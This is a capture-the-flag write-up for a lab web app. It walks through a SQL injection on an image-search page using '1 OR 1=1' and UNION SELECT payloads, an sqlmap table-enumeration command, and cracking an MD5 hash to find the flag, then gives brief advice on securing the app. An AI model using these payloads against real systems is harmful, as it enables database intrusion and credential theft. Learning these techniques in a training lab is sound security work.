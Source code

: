 # SQL Injection Image

In the image search page the form perfoms a DB search by id value provided by the client.

## Steps

* Proceed to <a href="http://192.168.0.108/?page=searchimg">search image page</a>
* In the search field enter then submit:
	1 OR 1=1
* Open your terminal
* Run reconnaissiance
```bash
	sqlmap "http://192.168.0.108/?page=searchimg&id=1&Submit=Submit#" --tables
```
* We want to UNION SELECT to append another select statement

* In the search field enter:
	1 OR 1=1 UNION SELECT id, comment FROM list_image

* <a href="https://hashes.com/en/decrypt/hash">MD5 decrypt the password</a>
	1928e8083cf461a51303633093573c46 --> albatroz

* In your terminal run
```bash
        cd ./Resources

	py sha256encrypt.py albatroz
```

## Ways to secure
* Validate and sanitize client input on the server

